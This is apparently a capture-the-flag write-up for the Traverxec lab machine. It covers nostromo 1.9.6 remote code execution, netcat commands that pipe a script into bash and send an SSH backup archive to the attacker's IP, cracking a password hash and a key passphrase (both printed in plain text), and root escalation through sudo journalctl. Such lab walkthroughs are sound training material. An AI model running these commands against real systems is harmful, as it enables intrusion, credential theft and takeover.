 MACHINE NAME: TRAVERXEC
MACHINE IP: 10.10.10.165


#Recon and Enumeration.

Two ports are open, port 22 and 80, running HTTP and SSH.

Port 80 is running a service called nostromo 1.9.6. This seems like an interesting one, we'll have a closer look at this one.

A quick lookup with searchsploit tells us that version1.9.6 has a Remote Code Execution vulnerability.
From this point, we can manually explit this, there exist a PoC on exploitdb that we could use. Alternatively, we can turn to metasploit to exploit.

Using Metasploit, get a shell which we can the stabilize.

python -c 'import pty;pty.spawn("/bin/bash")'

which nc

we see a bin/bash/nc

On host: nc -lvnp 9001 < linpeas.sh 

On Remote system: nc <tun0> 9001 | bash

Through the LinEnum, we discover a user; david.

-rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd                                                   
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

Crack the hash using john/hashcrack.

david: Nowonly4me

Navigating to /home/david/public_www we find some two interesting files, index.html and protected-file-area

The protected area folder has some backup ssh keys.

on rhost: nc 10.10.15.58 9001 < backup-ssh-identity-files.tgz

on lhost: nc -lvnp 9001 > backup.tgz

tar -xzvf tar.gz

cd /home/david/.ssh/

cat id_rsa ; this is an encrypted private key.


python3 /usr/share/john/ssh2john.py id_rsa > id_rsa.hash

the cracked cred: hunter

chmod 600 id_rsa

ssh -i id_rsa david@10.10.10.165

David user has an interesting folder named bin. cd into this directory, and read the contents of server-stats.sh

This last line is of particular interest: /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service


Exploiting journalctrl
I’ll look up journalctrl on gtfobins, and there is a sudo option. It’s quite short, simply saying:

sudo journalctl !/bin/sh

The trick here is that journalctrl will output to stdout if it can fit onto the current page, but into less if it can’t. Since I’m running it with -n 5, that means only five lines come out, so I need to shrink my terminal to smaller than 5 lines, and I’ll get sent into less, still as root.
